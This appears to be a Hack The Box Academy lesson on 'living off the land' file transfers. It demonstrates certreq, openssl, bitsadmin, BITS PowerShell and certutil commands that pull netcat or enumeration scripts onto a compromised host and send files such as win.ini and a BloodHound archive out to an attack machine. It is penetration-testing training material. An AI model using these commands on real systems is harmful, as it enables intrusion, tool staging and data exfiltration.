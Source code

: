 The phrase "Living off the land" was coined by Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) & Matt Graeber [@mattifestation](https://twitter.com/mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

-   [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
-   [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

-   Download
-   Upload
-   Command Execution
-   File Read
-   File Write
-   Bypasses

This section will focus on using LOLBAS and GTFOBins projects and provide examples for download and upload functions on Windows & Linux systems.

---

## Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io/#) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

### LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

![image](https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg)

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

#### Upload win.ini to our Pwnbox

```cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

#### File Received in our Netcat Session

```shell-session
James Pearson@htb[/htb]$ sudo nc -lvnp 80

listening on [any] 80 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

### GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

![image](https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg)

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.

#### Create Certificate in our Pwnbox

```shell-session
James Pearson@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

#### Stand up the Server in our Pwnbox

```shell-session
James Pearson@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Next, with the server running, we need to download the file from the compromised machine.

#### Download File from the Compromised Machine

```shell-session
James Pearson@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

---

## Other Common Living off the Land tools

### Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

#### File Download with Bitsadmin

```powershell-session
PS C:\htb> bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

#### Download

```powershell-session
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

#### Upload

```powershell-session
PS C:\htb> Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

---

### Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

#### Download a File with Certutil

```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```